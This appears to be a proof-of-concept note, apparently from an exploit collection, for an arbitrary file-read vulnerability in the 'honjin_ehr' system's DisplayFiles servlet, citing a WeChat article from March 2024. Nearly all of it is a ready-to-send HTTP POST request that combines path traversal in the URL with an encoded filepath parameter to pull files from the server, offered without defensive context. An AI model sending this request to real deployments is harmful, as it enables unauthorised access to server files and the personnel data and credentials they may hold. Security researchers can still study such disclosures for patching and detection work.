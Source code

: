 # honjin_ehr_DisplayFiles_fileread

from: https://mp.weixin.qq.com/s/nTWx2v0kEURdA4MA0jDVsA

2024.3.4
@2
```
POST /templates/attestation/../../servlet/DisplayFiles HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

filepath=Hmj0PAATTP2HJBPAATTPcyRcHb6hPAATTP2HJFPAATTP59XObqwUZaPAATTP2HJBPAATTP6EvXjT
```
